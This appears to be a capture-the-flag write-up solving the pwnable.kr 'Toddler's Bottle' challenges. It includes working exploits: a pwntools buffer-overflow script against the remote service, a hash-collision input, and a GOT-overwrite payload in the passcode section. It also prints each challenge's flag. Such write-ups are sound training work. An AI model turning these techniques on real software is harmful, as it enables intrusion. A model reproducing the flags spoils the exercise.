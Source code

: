 # Toddler's Bottle

## fd
use 4660 as argument(-> fd = 4660 - 0x1234 = 0 = stdin)
and then enter 'LETMEWIN'  
**Flag**  
mommy! I think I know what a file descriptor is!!

## collision
We need to insert string the when sum up as integer will equal to 
Choose one of the input from the output of this [python script](https://gist.github.com/bom2013/63ec0bc880f6a82e775d9dce7a2358fe), for example the generated arg for 'P' letter
```bash
col@pwnable:~$ python3 /tmp/collision_arg_generator.py
....
-----
Test P
Oh yeh!
0x50505050 0x50505050 0x50505050 0x50505050 0xe09bc8ac
...
col@pwnable:~$ ./col `printf "PPPPPPPPPPPPPPPP\xac\xc8\x9b\xe0"`
```  
**Flag**  
daddy! I just managed to create a hash collision :)

## bof
Simple buffer overflow, I try to do it directedly from the shell without success, so do it with python `pwntools` lib
```python
from pwn import *

message = 'a'*52 + "\xbe\xba\xfe\xca"
nc = remote("pwnable.kr",9000)
nc.send(message)
nc.interactive()
```  
**Flag**  
daddy, I just pwned a buFFer :)

## flag
Use 'strings' to search which packer -> UPX  
Use 'upx -d flag' to unpack  
Use 'string' to find the flag  
**Flag**  
UPX...? sounds like a delivery service :)


## passcode
When gcc the file get warning about pass 'int' and not 'int *'  
This means writing to a value that is in the variable 'passcode1'-> Junk seemingly  
Is there a way to change it before we get there and thus write to the good place?  
In the "welcome" function(Which performed before login function) we write to 'name', by using gdb you see the location of **'name'** variable in the stack:
```shell
(gdb) disas welcome
Dump of assembler code for function welcome:
   ...
   0x0804862f <+38>:    lea    -0x70(%ebp),%edx
   0x08048632 <+41>:    mov    %edx,0x4(%esp)
   0x08048636 <+45>:    mov    %eax,(%esp)
   0x08048639 <+48>:    call   0x80484a0 <__isoc99_scanf@plt>
   ...
End of assembler dump.
```
-> &name = ebp-0x70  
welcome and login using the same stack...  
lets see the location of **'passcode1'** in the stack using gdb:
```shell
(gdb) disas login
Dump of assembler code for function login:
   ...
   0x0804857c <+24>:    mov    -0x10(%ebp),%edx
   0x0804857f <+27>:    mov    %edx,0x4(%esp)
   0x08048583 <+31>:    mov    %eax,(%esp)
   0x08048586 <+34>:    call   0x80484a0 <__isoc99_scanf@plt>
   ...
End of assembler dump.
```
-> &passcode1 = ebp-0x10  
-> the distance between them is 0x70-0x10 = 96, we can write 100 -> we can overwrite 4 byte of passcode1 -> Yoo!  
What will we write? We want to put a value of a place in the memory that we then jump from, Fortunately we have a call to the **fflush** function that is not executed directly but through the plt mechanism so we have a jump:
```shell
(gdb) disas fflush
Dump of assembler code for function fflush@plt:
   0x08048430 <+0>:     jmp    *0x804a004
   0x08048436 <+6>:     push   $0x8
   0x0804843b <+11>:    jmp    0x8048410
End of assembler dump.
```
So if we put the value 0x804a004 in passcode before we get input to him, when we will get the the point we put input we can insert the address we want the program to jump to.  
Lets find this address using gdb:
```shell
(gdb) disas login
Dump of assembler code for function login:
   ...
   0x080485e3 <+127>:   movl   $0x80487af,(%esp)   # "/bin/cat flag"
   0x080485ea <+134>:   call   0x8048460 <system@plt>
   ...
End of assembler dump.
```
So, we will put 96 garbage chars and than 0x0804a004 to **'name'** and then enter 0x080485e3 to passcode1:
```shell
passcode@pwnable:~$ python -c "print 'A'*96 + '\x04\xa0\x04\x08' + str(int('0x080485e3', 16))" | ./passcode
Toddler's Secure Login System 1.0 beta.
enter you name : Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
Sorry mom.. I got confused about scanf usage :(
enter passcode1 : Now I can safely trust you that you have credential :)
```  
**Flag**  
Sorry mom.. I got confused about scanf usage :(


## random
rand() without seed -> always the same series of numbers ...  
The series begins with 1804289383  
-> 0xdeadbeef ^ 1804289383 = 3039230856  
**Flag**  
Mommy, I thought libc random is unpredictable...


## input
5 steps, each requiring a different form of software input (command line arguments, Pipes, user environment, files and sockets).  
I built the [following program](https://gist.github.com/bom2013/51c6012dfa826b4d0aa73e736115760c) (C, I know it's horrible, but got into trouble with the pwn library in Python😅)
To run the server-side script, follow these steps:
```shell
input2@pwnable:~$ mkdir /tmp/asdf
input2@pwnable:~$ cd /tmp/asdf
input2@pwnable:/tmp/asdf$ ln -s /home/input2/flag flag
input2@pwnable:/tmp/asdf$ nano input-sol.c
input2@pwnable:/tmp/asdf$ gcc input-sol.c -o input-sol
input2@pwnable:/tmp/asdf$ ./input-sol
Welcome to pwnable.kr
Let's see if you know how to give input to program
Just give me correct inputs then you will get the flag :)
Stage 1 clear!
Stage 2 clear!
Stage 3 clear!
Stage 4 clear!
Stage 5 clear!
Mommy! I learned how to pass various input in Linux :)
```  
**Flag**  
Mommy! I learned how to pass various input in Linux :)